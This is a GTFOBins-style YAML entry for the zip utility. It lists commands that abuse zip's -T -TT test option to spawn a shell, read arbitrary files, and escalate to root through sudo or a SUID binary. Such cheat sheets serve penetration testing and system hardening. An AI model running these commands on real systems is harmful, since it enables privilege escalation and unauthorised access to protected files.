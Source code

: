 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file-to-read
        zip /tmp/temp.zip $LFILE
        unzip -p /tmp/temp.zip < /dev/stdout
  shell:
    - code: |
        TF=$(mktemp -u)
        zip $TF /etc/hosts -T -TT 'sh #'
        rm $TF
  sudo:
    - code: |
        TF=$(mktemp -u)
        sudo zip $TF /etc/hosts -T -TT 'sh #'
        sudo rm $TF
  limited-suid:
    - code: |
        TF=$(mktemp -u)
        ./zip $TF /etc/hosts -T -TT 'sh #'
        sudo rm $TF
---
```

